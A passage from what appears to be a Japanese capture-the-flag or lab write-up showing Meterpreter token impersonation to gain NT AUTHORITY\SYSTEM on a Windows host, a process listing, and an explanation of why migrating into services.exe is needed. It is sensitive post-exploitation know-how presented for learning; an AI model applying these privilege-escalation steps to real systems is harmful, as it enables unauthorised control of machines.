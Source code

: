 ```
meterpreter > impersonate_token "BUILTIN\Administrators" 
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

```

また、その後 ps でプロセスを `services.exe` に乗り移ります。
これは Windows が権限を処理する方法によるもので、プロセスが何ができるか、何ができないかを決定するために、なりすましトークンではなく、プロセスのプライマリトークンを使用しているために、高い権限のトークンを持っていても、実際には特権ユーザの権限を持っていない可能性があるためです。

以下の解説がわかりやすかったです（と言ってもあんまりわかりきってない）
[偽装とは何か？](https://www.keicode.com/windows/impersonate-gisou.php)

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 680   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 776   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 852   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 872   2528  powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 924   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 940   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 992   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1016  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1064  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1180  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1212  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
```